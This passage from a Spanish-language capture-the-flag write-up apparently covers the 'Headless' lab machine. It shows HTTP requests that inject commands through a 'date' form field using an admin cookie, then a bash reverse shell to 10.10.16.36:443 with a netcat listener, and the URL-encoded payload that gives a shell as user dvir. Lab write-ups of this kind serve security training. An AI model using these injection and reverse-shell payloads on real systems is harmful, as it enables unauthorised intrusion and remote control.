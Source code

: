 ```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; whoami
```
Vemos efectivamente que podemos inyectar comandos

![Pasted image 20240724121409.png](../assets/images-Headless/Headless10.png)

Por lo que procedo a enviarme una reverse shell, a esto en la solicitud que vamos a enviar lo URL encodeamos
```
bash -c "bash -i >& /dev/tcp/10.10.16.36/443 0>&1"
```
Nos ponemos en escucha con `netcat` por el puerto 443:
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```
Enviamos la solicitud:
```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;+bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.36/443+0>%261"
```
Y obtenemos la conexión como el usuario dvir